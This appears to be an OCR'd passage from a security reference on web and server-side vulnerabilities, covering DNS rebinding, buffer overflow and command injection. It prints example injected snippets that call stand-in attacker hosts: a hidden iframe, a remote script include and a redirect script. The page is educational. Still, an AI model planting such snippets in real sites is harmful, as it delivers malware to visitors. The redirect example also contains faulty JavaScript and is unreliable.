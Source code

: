 
----
## Network Fenceposts

When websites let the browser to interact with destinations not directly accessible to the attacker, for example, with the systems on a victim's internal networks. This attack can be performed with the help of [DNS rebinding](http://en.wikipedia.org/wiki/DNS_rebinding).

### Attempts of mitigation:

* Internet Explorer implements the zone model, a potential approach to the risk.



---

# Vulnerabilities in the Server-Side

## Buffer Overflow

In low-level languages such as C or C++, buffer overflow happens when a program allows more information to be stored in a particular memory region than there is space to accommodate the incoming data, leading to the unexpected overwrite of other vital data structures.

---
## Command Injection (SQL, PHP, Shellcode)

Due to insufficient input filtering or output escaping, attacker-controlled strings may be processed as statements in an interpreted language used by the application.

### Examples of exploitation:

* Malicious code injections in an iframe to the attack site:
```
<iframe frameborder="0" height="0" src="http://<attack-site>/path/file" style="display:none" width="0"></iframe>
```

* JavaScript or another scripting language that calls and runs scripts from an attack site:

```
<script type='text/javascript' src='http://malware-attack-site/js/x55.js'></script>
```

* Scripts that redirects the browser to an attack site:
```
<script>
 if (document.referrer.match(/google\.com/)) {
 window.location("http://malware-attack-site/");
 }
</script>
```
